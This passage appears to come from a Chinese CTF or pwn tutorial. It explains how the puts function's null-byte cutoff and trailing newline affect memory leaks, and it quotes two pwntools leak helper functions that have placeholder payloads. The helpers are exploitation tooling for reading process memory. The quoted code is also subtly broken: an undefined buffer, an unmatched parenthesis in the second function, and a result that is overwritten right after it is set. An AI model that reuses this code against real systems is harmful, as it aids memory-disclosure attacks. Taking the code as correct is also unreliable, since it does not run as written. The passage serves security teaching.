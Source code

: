 这里还要提一点，就是puts函数在输出时是依靠\x00截断的，而且会在结尾加上一个\x0a换行符，所以我们不能像write函数一样稳定leak4字节，而是最少leak1字节。

这里我引用一篇文章：http://bobao.360.cn/learning/detail/3298.html

文章中讲到了关于用puts函数leak的一些细节。

**以下为引用：**

puts的原型是puts(addr)，即将addr作为起始地址输出字符串，直到遇到“\x00”字符为止。也就是说，puts函数输出的数据长度是不受控的，只要我们输出的信息中包含\x00截断符，输出就会终止，且会自动将“\n”追加到输出字符串的末尾，这是puts函数的缺点，而优点就是需要的参数少，只有1个，无论在x32还是x64环境下，都容易调用。

为了克服输入不受控这一缺点，我们考虑利用puts函数输出的字符串最后一位为“\n“这一特点，分两种情况来解决。

（1）puts输出完后就没有其他输出，在这种情况下的leak函数可以这么写。

```python
def leak(address):
  count = 0
  data = ''
  payload = xxx
  p.send(payload)
  print p.recvuntil('xxx\n') #一定要在puts前释放完输出
  up = ""
  while True:
    #由于接收完标志字符串结束的回车符后，就没有其他输出了，故先等待1秒钟，如果确实接收不到了，就说明输出结束了
    #以便与不是标志字符串结束的回车符（0x0A）混淆，这也利用了recv函数的timeout参数，即当timeout结束后仍得不到输出，则直接返回空字符串””
    c = p.recv(numb=1, timeout=1)
    count += 1
    if up == '\n' and c == "":  #接收到的上一个字符为回车符，而当前接收不到新字符，则
      buf = buf[:-1]             #删除puts函数输出的末尾回车符
      buf += "\x00"
      break
    else:
      buf += c
    up = c
  data = buf[:4]  #取指定字节数
  log.info("%#x => %s" % (address, (data or '').encode('hex')))
  return data
```

（2）puts输出完后还有其他输出，在这种情况下的leak函数可以这么写。

```python
def leak(address):
  count = 0
  data = ""
  payload = xxx
  p.send(payload)
  print p.recvuntil("xxx\n")) #一定要在puts前释放完输出
  up = ""
  while True:
    c = p.recv(1)
    count += 1
    if up == '\n' and c == "x":  #一定要找到泄漏信息的字符串特征
      data = buf[:-1]                     
      data += "\x00"
      break
    else:
      buf += c
    up = c
  data = buf[:4] 
  log.info("%#x => %s" % (address, (data or '').encode('hex')))
  return data
```
